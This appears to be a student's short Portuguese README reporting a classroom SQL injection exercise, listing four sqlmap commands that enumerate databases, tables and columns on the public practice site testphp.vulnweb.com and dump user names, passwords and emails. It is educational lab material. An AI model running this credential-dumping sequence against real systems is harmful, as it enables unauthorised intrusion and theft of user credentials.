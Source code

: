 ## SqlInjection

Durante a atividade em sala de aula, eu realizei a atividade proposta em sala e a atividade proposta para casa, segue os seguintes comandos para a realização da atividade com SqlMap:

- ```sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs```
- ``` sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs -D actuart --tables```
- ``` sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs -D actuart -T users --columns```
- ``` sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs -D actuart -T users -C name, pass, email --dump```

Ao final da execução dos comandos, foi possível identificar os usuários cadastros com informações de login e senha e a ssim obter acesso ao site.

No geral, a realização da atividade foi tranquila devido aos meus conhecimento prévios em sql e pela descrição detalhada dos passos a serem executados pelo tutorial.